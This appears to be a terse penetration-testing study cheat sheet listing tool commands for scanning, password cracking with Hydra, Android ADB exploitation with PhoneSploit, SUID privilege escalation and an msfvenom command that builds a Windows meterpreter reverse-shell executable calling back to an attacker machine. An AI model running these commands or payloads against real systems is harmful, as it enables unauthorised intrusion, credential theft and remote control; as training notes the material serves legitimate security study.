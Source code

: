 Access link is **https://127.0.0.1:9392** , Username: admin, Password: password

> Scans > Task > Wizardy Wand thingy > Task Wizard > Enter target IP address > Start Scan


## Using Nikto to scan Web Servers/CGI Applications

> nikto -h [HOST NAME eg. https://www.certifiedhacker.com] -Tuning x -o [NAME OF OUTPUT FILE] -F [FORMAT OF OUTPUT FILE eg. txt]

## Dirb

> dirb [HOST] -w



# Steganography

OpenStego on Windows (Straightforward)


# Phone Exploitation (ADB:5555)

pip3 install colorama

python3 phonesploit.py

# System Hacking

## Password Cracking
1. L0phtcrack 7 (Windows Password Auditor/Cracker)
2. Hydra
    > hydra -l [Username] -P [Password list] [Victim IP] [Protocol. SMB, FTP etc]

# Exploitation

## Reverse Shell payloads

> msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP address of Attacker machine] LPORT=444 -o /home/attacker/Desk/FILENAME.exe



## Priv Escalation

**Command to look for list with SUID**

> find / -type f -perm -4000 [-ls if u want to list] 2>/dev/null

 **NFS**
